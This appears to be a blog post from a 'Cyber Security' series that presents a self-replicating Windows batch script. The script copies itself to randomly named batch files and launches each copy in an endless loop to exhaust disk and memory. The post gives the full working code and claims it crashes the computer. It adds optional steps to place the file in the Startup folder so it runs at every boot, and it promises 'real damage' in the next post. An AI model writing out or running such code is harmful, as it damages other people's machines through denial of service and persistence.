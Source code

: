 ```yaml
---
title: Overloading Memory, The thing about machines is that they all have a limit.
path: /overloading-memory
tags:
  - Cyber Security
metaImage: assets/overload.jpeg
featuredImage: ./assets/overload.jpeg
excerpt: This virus combines the best of the fork bomb and the application
  flooder. It creates a new batch file in the same directory and then copies
  itself onto this new file. It then starts this new virus and then both of them
  create another copy of themselves which are then run and the process repeats
  over and over
created: 2020-06-12T03:31:24.963Z
updated: 2020-06-12T03:31:25.033Z
---
```

This virus combines the best of the [fork bomb](https://blog.leewardslope.com/fork-bomb) and the [application flooder](https://blog.leewardslope.com/application-flooder).

It creates a new batch file in the same directory and then copies itself onto this new file. It then starts this new virus and then both of them create another copy of themselves which are then run and the process repeats over and over and we have an exponential growth in the number of viruses on disk and in memory (RAM).

So let’s have a look:

```powershell
@echo off
:A
set x=%random%
type %0 >> %x%.bat
start %x%.bat
goto:A
```

Depending on what runs out first hard disk space or RAM, the batch file may or may not cause permanent damage. In both cases, however, the computer will almost definitely crash, the operating system may be corrupted and on the next start up, you will be greeted by the well-known “Blue Screen Of Death”. The only way to get rid of it will be to format your hard drive and re-install the operating system.

(Optional) To make this file execute automatically at startup, Do the following. Create a shortcut of the damage.bat file by right clicking on it. Open the start menu, In programs Open Startup folder and simply drag or cut-paste the shortcut into this folder. The virus will break loose the next time the computer is started up.

- - -

These past couple of batch file viruses were, at best, annoying. Now let’s do some real damage. Next up, we’re going to be [wiping out memory](https://blog.leewardslope.com/wiping-out-memory).